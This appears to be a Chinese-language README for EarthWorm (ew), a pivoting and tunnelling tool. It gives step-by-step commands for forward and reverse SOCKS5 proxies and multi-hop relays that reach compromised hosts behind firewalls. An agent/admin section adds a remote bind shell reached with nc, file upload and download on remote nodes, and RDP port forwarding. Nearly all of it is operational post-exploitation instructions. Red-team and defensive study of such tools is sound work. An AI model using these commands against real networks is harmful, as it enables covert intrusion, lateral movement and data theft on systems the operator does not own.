 # EW

【使用场景】

    普通网络环境：
        1.  目标网络边界存在公网IP且可任意开监听端口：

                  +---------+     +-------------------+  
                  |HackTools| ->> | 8888->  1.1.1.1   |
                  +---------+     +-------------------+

                a)./ew -s ssocksd -l 8888
                        // 在 1.1.1.1 主机上通过这个命令开启 8888 端口的 socks 代理
                b) HackTools 可通过访问 1.1.1.1:8888 端口使用 1.1.1.1 主机提供的代理
                    
        2.  目标网络边界不存在公网 IP，需要通过反弹方式创建 socks 代理
            
                                        一台可控公网IP主机                  可控内网主机
                  +---------+     +--------------------------+    |     +---------------+
                  |HackTools| ->> | 1080 ->  1.1.1.1 -> 8888 |  防火墙  | <--  2.2.2.2  |
                  +---------+     +--------------------------+    |     +---------------+

                a) ./ew -s rcsocks -l 1080 -e 8888
                            // 在 1.1.1.1 的公网主机添加转接隧道，将 1080 收到的代理请求转交给反连 8888 端口的主机
                b) ./ew -s rssocks -d 1.1.1.1 -e 8888          
                            // 将目标网络的可控边界主机反向连接公网主机

                c) HackTools 可通过访问 1.1.1.1:1080 端口使用 rssocks 主机提供的 socks5 代理服务

    对于二重网络环境：        
        1.  获得目标网络内两台主机 A、B 的权限，情况描述如下：

                A 主机：  存在公网 IP，且自由监听任意端口，无法访问特定资源
                B 主机：  目标网络内部主机，可访问特定资源，但无法访问公网
                A 主机可直连 B 主机
                
                                        可控边界主机A             可访问指定资源的主机B
                  +---------+     +-----------------------+      +-----------------+
                  |HackTools| ->> | 1080 -->  2.2.2.2 --> | ->>  | 9999 -> 2.2.2.3 |
                  +---------+     +-----------------------+      +-----------------+

                a)  ./ew -s ssocksd -l 9999
                        // 在 2.2.2.3 主机上利用 ssocksd 方式启动 9999 端口的 socks 代理
                b)  ./ew -s lcx_tran -l 1080 -f 2.2.2.3 -g 9999 
                        // 将 1080 端口收到的 socks 代理请求转交给 2.2.2.3 的主机。
                c)  HackTools 可通过访问 2.2.2.2:1080 来使用 2.2.2.3 主机提供的 socks5 代理。
                
        2.  获得目标网络内两台主机 A、B 的权限，情况描述如下：

                A 主机：  目标网络的边界主机，无公网 IP，无法访问特定资源。
                B 主机：  目标网络内部主机，可访问特定资源，却无法回连公网。

                A 主机可直连 B 主机
                                      一台可控公网IP主机                    可控内网主机A         可访问指定资源的主机B
                  +---------+     +--------------------------+    |    +-----------------+      +-----------------+
                  |HackTools| ->> | 1080 ->  1.1.1.1 -> 8888 |  防火墙  | <--  2.2.2.2 --> | ->> | 9999 -> 2.2.2.3 |
                  +---------+     +--------------------------+    |    +-----------------+      +-----------------+

                a)  ./ew -s lcx_listen -l 1080 -e 8888
                            // 在 1.1.1.1 公网主机添加转接隧道，将 1080 收到的代理请求
                            // 转交给反连 8888 端口的主机
                b)  ./ew -s ssocksd -l 9999
                            // 在 2.2.2.3 主机上利用 ssocksd 方式启动 9999 端口的 socks 代理
                c)  ./ew -s lcx_slave -d 1.1.1.1 -e 8888 -f 2.2.2.3 -g 9999
                            // 在 2.2.2.2 上，通过工具的 lcx_slave 方式，打通1.1.1.1:8888 和 2.2.2.3:9999 之间的通讯隧道
                d)  HackTools 可通过访问 1.1.1.1:1080 来使用 2.2.2.3 主机提供的 socks5 代理


【参数说明】

    目前工具提供六种链路状态，可通过 -s 参数进行选定，分别为:

        ssocksd   rcsocks   rssocks   
        lcx_slave lcx_tran  lcx_listen

        其中 SOCKS5 服务的核心逻辑支持由 ssocksd 和 rssocks 提供，分别对应正向与反向socks代理。

        其余的 lcx 链路状态用于打通测试主机同 socks 服务器之间的通路。
    
    lcx 类别管道：

        lcx_slave  该管道一侧通过反弹方式连接代理请求方，另一侧连接代理提供主机。
        lcx_tran   该管道，通过监听本地端口接收代理请求，并转交给代理提供主机。
        lcx_listen 该管道，通过监听本地端口接收数据，并将其转交给目标网络回连的代理提供主机。
    
        通过组合lcx类别管道的特性，可以实现多层内网环境下的渗透测试。

        下面是一个三级跳的本地测试例子。。。
        ./ew -s rcsocks -l 1080 -e 8888
        ./ew -s lcx_slave -d 127.0.0.1 -e 8888 -f 127.0.0.1 -g 9999
        ./ew -s lcx_listen -l 9999 -e 7777
        ./ew -s rssocks -d 127.0.0.1 -e 7777

        数据流向为   IE -> 1080 -> 8888 -> 9999 -> 7777 -> rssocks 

【补充说明】
        1.为了减少网络资源的消耗，程序中添加了超时机制，默认时间为10000毫秒（10秒），
          用户可以通过追加 -t 参数来调整这个值，单位为毫秒。在多级级联功能中，超时机制
          将以隧道中最短的时间为默认值。
        2.单纯从设计原理上讲，多级级联的三种状态可以转发任意以TCP为基础的通讯服务，
          包括远程桌面／web服务 等。
        3.产品包中的 ew_for_Arm32 在开发者已有平台下（android手机、小米路由器、树莓派） 测试无误。
          如果有其它异常环境请将对应详细细节反馈给作者，以便更新程序问题。


# Agent

1. 以服务模式启动一个agent服务。

> $ ./agent -l 8888

2. 令管理端连接到agent并对agent进行管理。

> $ ./admin -c 127.0.0.1 -p 8888

3. 此时，admin端会得到一个内置的shell, 输入help指令可以得到帮助信息。

>> help

4. 通过show指令可以得到当前agent的拓扑情况。

>> show 
 0M
 +-- 1M
 由于当前拓扑中只有一个agent，所以展示结果只有 1M ,
  其中1 为节点的ID号，
  M为MacOS系统的简写，Linux为L，Windows简写为W。

5. 将新agent加入当前拓扑
> ./agent -c 127.0.0.1 -p 8888

6. 此时show指令将得到如下效果
 0M
 +-- 1M
 |   +-- 2M
  这表明，当前拓扑中有两个节点，其中由于2节点需要通过1节点才能访问，所以下挂在1节点下方。

7. 在2节点开启socks代理，并绑定在本地端口
>> goto 2
    将当前被管理节点切换为 2 号节点。
>> socks 1080
   此时，本地1080 端口会启动个监听服务，而服务提供者为2号节点。

8. 在1号节点开启一个shell并绑定到本地端口
>> goto 1
>> shell 7777
     此时，通过nc本地的 7777 端口，就可以得到一个 1 节点提供的 shell.

9. 将远程的文件下载至本地
>> goto 1
>> downfile 1.txt 2.txt
    将1 节点，目录下的 1.txt 下载至本地，并命名为2.txt

10. 上传文件至远程节点
>> goto 2
>> upfile 2.txt 3.txt
    将本地的 2.txt 上传至 2号节点的目录，并命名为3.txt

11. 端口转接
>> goto 2 
>> lcxtran 3388 10.0.0.1 3389
    以2号节点为跳板，将 10.0.0.1 的 3389 端口映射至本地的 3388 端口


# 更多支持
    http://rootkiter.com/toolvideo/toolmp4/1maintalk.mp4
    http://rootkiter.com/toolvideo/toolmp4/2socks.mp4
    http://rootkiter.com/toolvideo/toolmp4/3lcxtran.mp4
    http://rootkiter.com/toolvideo/toolmp4/4shell.mp4
    http://rootkiter.com/toolvideo/toolmp4/5file.mp4
